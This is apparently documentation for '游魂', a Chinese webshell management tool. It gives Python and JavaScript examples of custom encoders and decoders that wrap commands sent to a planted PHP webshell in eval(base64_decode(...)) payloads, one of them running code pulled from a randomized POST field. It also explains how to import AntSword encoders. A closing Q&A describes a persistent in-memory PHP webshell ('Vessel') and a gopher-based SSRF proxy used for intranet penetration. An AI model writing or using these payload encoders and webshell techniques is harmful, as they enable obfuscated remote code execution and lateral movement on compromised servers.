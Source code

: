 # 示例：自定义Encoder

TODO: 做一个添加encoder的页面

首先根据启动时打印的路径打开游魂的配置文件夹，找到其中的`modules/php_encoders`文件夹

新建python文件（如`example.py`）并往其中写入以下内容：

```python
import base64

def encode(code: str) -> str:
    return f"eval(base64_decode({base64.b64encode(code.encode()).decode()!r}));"
```

最后重启游魂即可在webshell编辑页面看到encoder

# 示例：自定义Decoder

TODO: 做一个添加decoder的页面

首先根据启动时打印的路径打开游魂的配置文件夹，找到其中的`modules/php_decoders`文件夹

新建python文件（如`example.py`）并往其中写入以下内容：

```python
import base64

phpcode = """
function decoder_echo_raw($s) {
    echo base64_encode($s);
}
"""

def decode(s: str) -> str:
    return base64.b64decode(s).decode()
```

最后重启游魂即可在webshell编辑页面看到decoder

# 示例：将蚁剑的encoder和decoder导入到游魂中

首先根据启动时打印的路径打开游魂的配置文件夹

然后在`AntSwordEncoder`或`AntSwordDecoder`中写入js文件，并重启游魂即可

比如在`AntSwordEncoder`写入文件`example-base64.js`

```js
module.exports = (pwd, data, ext={}) => {
    let randomID = `_0x${Math.random().toString(16).substr(2)}`;
    data[randomID] = Buffer.from(data['_']).toString('base64');
    data[pwd] = `eval(base64_decode($_POST[${randomID}]));`;
    delete data['_'];
    return data;
}
```

或者在`AntSwordDecoder`写入文件`example-base64.js`

```js
module.exports = {
  asoutput: () => {
    return `function asenc($out){
      return @base64_encode($out);
    }
    `.replace(/\n\s+/g, '');
  },
  decode_buff: (data, ext={}) => {
    return Buffer.from(data.toString(), 'base64');
  }
}
```

完成后可以在webshell编辑界面看到encoder

注意：游魂不支持和蚁剑内部设计高度相关的某些环境变量，某些encoder需要进行修改才能使用

# Q&A: 为什么正向代理有Vessel和伪正向两种代理？Vessel是什么？

Vessel是我自己写的一个PHP持久化内存马，可以通过文件和Session两种方式通信。本来正向代理功能是打算直接联动[Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)的，但是Neo-reGeorg的许可证是GPL3，如果用他们的代码的话就要换许可证了。

本来计划是写一个PHP内存马然后通过文件实现与内存马的通信，但是看了Neo-reGeorg的代码后才发现Session竟然可以这么用来通信，然后才加上了Session的通信方式。

Vessel没有经过多少测试，功能也只是基本能用的状态，速度应该也比不上Neo-reGeorg，但是用来做内网渗透应该是够的。

伪正向代理是用gopher协议以类似SSRF的方式发送流量，因为是SSRF所以基本上只能支持HTTP之类的协议。
